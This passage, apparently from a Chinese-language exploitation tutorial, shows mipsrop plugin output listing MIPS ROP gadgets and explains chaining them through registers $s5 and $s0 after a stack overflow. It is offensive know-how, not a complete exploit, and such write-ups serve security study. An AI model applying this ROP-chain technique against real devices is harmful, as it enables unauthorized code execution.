 

```
Python&gt;mipsrop.find("addiu $s0,1")

----------------------------------------------------------------------------------------------------------------

| Address | Action | Control Jump |

----------------------------------------------------------------------------------------------------------------

| 0x000158C8 | addiu $s0,1 | jalr $s5 |

| 0x000158D0 | addiu $s0,1 | jalr $s5 |

| 0x0002374C | addiu $s0,1 | jalr $fp |

| 0x0002D194 | addiu $s0,1 | jalr $s5 |

......

---------------------------------------
```

这里使用第一个 gadget ，指令的意思是直接跳到 s5 寄存器指向的地址，所以上一步溢出时需要事先把 s5 填充为下一个 gadget 的地址

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01154d3e6d957bf242.png)

接着使用 mipsrop.stackfinder() 查找 gadget：



```
Python&gt;mipsrop.stackfinder()

----------------------------------------------------------------------------------------------------------------

| Address | Action | Control Jump |

----------------------------------------------------------------------------------------------------------------

| 0x0000B814 | addiu $a1,$sp,0x168+var_150 | jalr $s1 |

| 0x0000B830 | addiu $a1,$sp,0x168+var_B0 | jalr $s1 |

| 0x0000DEF0 | addiu $s2,$sp,0xC8+var_B8 | jalr $s4 |

| 0x00013F74 | addiu $s1,$sp,0x50+var_38 | jalr $s4 |

| 0x00014F28 | addiu $s1,$sp,0x50+var_38 | jalr $s4 |

| 0x000159CC | addiu $s5,$sp,0x170+var_160 | jalr $s0 |

......
```
